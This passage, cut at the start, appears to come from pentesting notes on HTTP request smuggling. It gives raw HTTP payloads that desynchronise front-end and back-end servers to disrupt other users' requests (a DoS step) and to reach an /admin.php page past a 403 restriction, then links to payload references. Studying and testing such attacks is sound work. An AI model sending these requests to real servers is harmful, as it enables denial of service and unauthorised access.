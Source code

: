   ```bash
  Content-Length: 440

  password=test&submit=&username=smug
  ```
#### 3. Check if the target uses cache implementation, try cache deception.
#### 4. Try to exploit the target to do DoS (Low to Critical based on the business)
  ```bash
  POST / HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 35
  Transfer-Encoding: chunked

  0

  GET /404 HTTP/1.1
  X-Ignore: X                                  # This line will remove "GET /xxx HTTP/1.1" from victim request
  ```
#### 5. Try to bypass `403` status code, because the restriction may be occured in the front server.
  ```bash
  POST / HTTP/1.1
  Host: icollab.info
  Transfer-Encoding: chunked
  Contetnt-Length: 33

  0

  GET /admin.php HTTP/1.1
  x:
  ```

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling
- https://book.hacktricks.xyz/pentesting-web/http-request-smuggling
- https://book.hacktricks.xyz/pentesting-web/http-response-smuggling-desync
- https://book.hacktricks.xyz/pentesting-web/http-connection-request-smuggling
